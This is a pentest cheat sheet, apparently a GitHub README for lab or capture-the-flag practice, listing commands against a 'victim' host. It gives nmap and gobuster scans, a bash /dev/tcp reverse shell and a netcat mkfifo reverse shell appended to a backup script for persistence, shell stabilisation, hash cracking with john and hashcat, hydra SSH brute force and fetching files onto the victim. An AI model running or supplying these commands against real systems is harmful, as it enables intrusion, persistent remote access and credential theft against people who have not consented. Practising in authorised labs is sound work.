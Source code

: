 # Pentest CheatSheet

## Simple shortcuts

To keep your victim adress IP choose one of this solutions :

Add the IP adress to your hosts file
```
sudo vim /etc/hosts

<IP> victim_serveur
```
Add the IP adress to your local environment. Be carreful it's not shared on all of your terminals.
```
export IP=<IP>
```

## SCAN SERVER 

-sC Scan with scripts
-sV Scan ports and show version
-A  Scan OS and version
-p- Scan all ports
-oN Output to a file

```
nmap -sC -sV -oN nmap.log <IP>
nmap -sC -sV -A -oN nmap_all.log <IP> 
nmap -sC -sV -A -p- -oN nmap_allports.log <IP> 
```
	
## SCAN HIDDEN WEB FILES

Scan a server with web content in order to find hidden folder or files.
-u Adress (you can precise port with ':')
-w Dictionnary
-x Extension file to search for
-o Output to a file

```
gobuster dir -u http://<IP> -w directory-list-2.3-medium.txt -o gobuster.txt
gobuster dir -u http://<IP> -w directory-list-2.3-medium.txt -o gobuster.txt -x txt,js,html,php
```
## REVERSE SHELL

CheatSheet: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

### Open a reverse shell

Victim :
```
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f" >> /usr/local/bin/main_backup.sh
```
Listener:
```
nc -lvp <PORT>
```

### Stabilyze your shell

Open a tty
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Enable autocomplete and special characters once you got a reverse shell:
<CTRL-Z>
stty raw -echo; fg <ENTER><ENTER>

## HASH

### Analyze Hash :

online : 
https://www.tunnelsup.com/hash-analyzer/

cmd :
```
hashid <HASH>
hash-identifier
```
### Decrypt Hash :

online :
https://md5decrypt.net/
https://gchq.github.io/CyberChef/

cmd:

Base64 decrypt:
```
echo '<HASH>' | base64 -d
```

Other :
```
john --format=<JOHN-FORMAT> --wordlist=rockyou.txt hash.txt
hashcat -m <HASHCAT-FORMAT> -a 0 -o cracked.txt hash.txt rockyou.txt
```

## BRUTEFORCE SSH

-l Single User
-L User file
-p Single Password
-P Password file
```
hydra -l <USER> -P rockyou.txt <IP> ssh -t 4
```

## TRANSFERT FILES

via ssh:
```
scp <FILE-PATH> <USER>@<IP>:<FILE-PATH>
```

Host web server on your machine and wget on the victim:
```
python3 -m http.server 4444
wget <IP>:4444
```

## USEFULL FILE

### Dictionnary

Password : 
rockyou.txt --> /usr/share/wordlists/rockyou.txt.gz

Hidden web folder and file:

Quite complete : directory-list-2.3-medium.txt --> /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
Short ones more or less complete: small.txt - common.txt - big.txt --> /usr/share/dirb/wordlists/

### Check local vulns

linpeas.sh --> https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS